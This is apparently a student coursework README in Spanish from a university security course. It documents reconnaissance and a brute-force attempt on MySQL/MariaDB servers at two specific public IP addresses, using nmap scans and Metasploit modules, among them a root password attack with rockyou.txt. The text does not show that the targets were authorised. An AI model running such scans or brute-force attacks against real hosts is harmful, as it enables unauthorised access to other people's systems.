






# Sprint 3 – Evidencias de Explotación  
### Curso: Anti Hacking y Nuevas Tendencias de Seguridad – UPC  
### Repositorio de Evidencias – Entorno MySQL/MariaDB

---

## 1. Objetivo del Sprint

Documentar la fase de explotación realizada contra servidores remotos con MySQL/MariaDB, utilizando:

- **Atacante:** Kali Linux  
- **Víctimas:** Servidores expuestos a Internet  
- **Herramientas:** Nmap, Metasploit (`mysql_login`, `mysql_version`, `mysql_info`)

Se registran:

- Configuración de red  
- Detección de servicios y puertos  
- Enumeración de versión y plugins de autenticación  
- Intentos de explotación (fuerza bruta / enumeración)  
- Resultados y capturas asociadas

---

## 2. Estructura del Repositorio

```plaintext
evidencias/
├── FASE A — EXPLOTACIÓN MYSQL/MARIADB (PoC ENUMERACIÓN).txt
├── kali_ifconfig.txt
├── kali_ip addr.txt
├── nmap_scan_35.212.122.191.txt
├── nmap_scan_23.239.27.53.txt
├── metasploit_mysql_login.txt
├── metasploit_mysql_version.txt
├── metasploit_mysql_info.txt
└── Screenshot/
    ├── Captura de pantalla 2025-12-04 1540.png
    ├── Captura de pantalla 2025-12-04 1542.png
    └── Captura de pantalla 2025-12-04 1545.png
```

---

## 3. Fase A – Explotación Sobre MySQL/MariaDB

### A1. Verificación de Conectividad

Comandos:

```bash
ifconfig
ip addr show
ping -c 4 23.239.27.53
```
Evidencia:

IP de Kali confirmada

Host remoto responde ICMP



### A2. Descubrimiento de Servicios (Nmap)
```bash
nmap -p 3306 -sV 35.212.122.191
nmap -p 3306 -sV 23.239.27.53
```

Resultados:

Host	Puerto	Servicio	Resultado
35.212.122.191	3306	MySQL	Conexión rechazada, no permite handshake
23.239.27.53	3306	MariaDB	Banner expuesto: 5.5.5-10.6.18-MariaDB-cll-lve



### A3. Enumeración con NSE (mysql-info)
```bash
nmap -p 3306 --script mysql-info 23.239.27.53
```

Información extraída:

Protocolo: 10

Versión: 5.5.5-10.6.18-MariaDB-cll-lve

Plugin: mysql_native_password

Salt entregado en handshake




### A4. Explotación con Metasploit
1. Fuerza bruta – mysql_login
```bash
use auxiliary/scanner/mysql/mysql_login
set RHOSTS 23.239.27.53
set USERNAME root
set PASS_FILE /usr/share/wordlists/rockyou.txt
run
```

Resultado:
No se encontraron credenciales válidas.





2. Enumeración de versión – mysql_version
```bash
use auxiliary/scanner/mysql/mysql_version
set RHOSTS 23.239.27.53
run
```




## Resultado:
Confirmación de MariaDB 10.6.18.

### A5. Conclusión de la Fase A

Se enumeró versión, protocolo y plugin de autenticación.

No se lograron credenciales por fuerza bruta.

35.212.122.191 rechaza handshake correctamente.

23.239.27.53 expone banner completo del servicio.

Riesgo identificado: exposición de base de datos a Internet permite fingerprinting del sistema.

## 6. Resumen de Resultados

Servicio MariaDB accesible remotamente en 23.239.27.53.

Enumeración completa del banner:

Versión: MariaDB 10.6.18

Plugin: mysql_native_password

Protocolo 10

No se explotaron credenciales.

Diferencias claras en políticas de ambos hosts.

Riesgo principal: servicio expuesto con información sensible accesible sin autenticación.
